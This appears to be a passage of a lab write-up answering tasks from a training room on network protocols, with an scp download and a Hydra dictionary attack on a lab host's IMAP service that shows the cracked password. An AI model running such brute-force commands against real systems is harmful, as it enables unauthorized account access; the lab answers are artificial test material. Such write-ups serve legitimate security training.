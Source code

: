 <p></p>

<pre><code>$ mark@ip-10-10-88-138:~$ uname -r
5.15.0-119-generic
mark@ip-10-10-88-138:~$ 
</code></pre>

<p><br></p>

> 5.2 - <em>Use SSH to download the file <code>book.txt</code> from the remote system. How many KBs did <code>scp</code> display as download size?</em><br>
>> <strong>415</strong><br>
<p><br></p>

<pre><code>$ scp mark@10.10.88.138:/home/mark/book.txt ~
mark@10.10.88.138's password: 
book.txt                                                                  100%  415KB  19.3MB/s   00:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/53df2492-fc1c-4509-ab13-9ea6bdf41843)


<h2>Task 6 - Password Attack</h2>

> 6.1 - <em>We learned that one of the email accounts is <code>lazie</code>. What is the password used to access the IMAP service on 10.10.88.138?</em><br>
>> <strong>butterfly</strong><br>
<p><br></p>

<pre><code>$ hydra -l lazie -P /usr/share/wordlists/rockyou.txt 10.10.88.138 imap
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-10-25 01:40:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking imap://10.10.88.138:143/
[143][imap] host: 10.10.88.138   login: lazie   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-10-25 01:41:00
</code></pre>
<p><br></p>

![image](https://github.com/user-attachments/assets/e2819e22-0a5c-4f7d-9aa9-ca33864e1f0e)


<h2>Task 7 - Summary</h2>

<p>This room covered various protocols, their usage, and how they work under the hood. Three common attacks are:</p>


![image](https://github.com/user-attachments/assets/5706b437-50fb-4625-847c-8ff3cb209c08)
